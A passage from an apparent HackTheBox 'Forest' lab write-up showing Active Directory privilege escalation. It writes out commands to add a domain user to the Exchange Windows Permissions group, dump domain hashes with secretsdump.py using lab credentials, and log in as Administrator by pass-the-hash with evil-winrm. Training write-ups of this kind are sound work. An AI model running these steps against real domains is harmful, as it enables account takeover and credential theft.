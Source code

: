 ![/images/forest/ADMIN.png](/images/forest/ADMIN.png)

2- So we are going to creat a new user then add this user to **EXCHANGE WINDOWS PERMISSIONS group. (Recommended)**

    net user notevil notevil1 /add /domain
    net group "EXCHANGE WINDOWS PERMISSIONS" notevil /add /domain

we now can run Bloodhound again on the machine and repeat the same steps, then use the new user creds to grab the AD hash using the secretsdump.

    python3 secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161

Evil-winRM allows auth using the hash and username

    evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

![/images/forest/root.png](/images/forest/root.png)
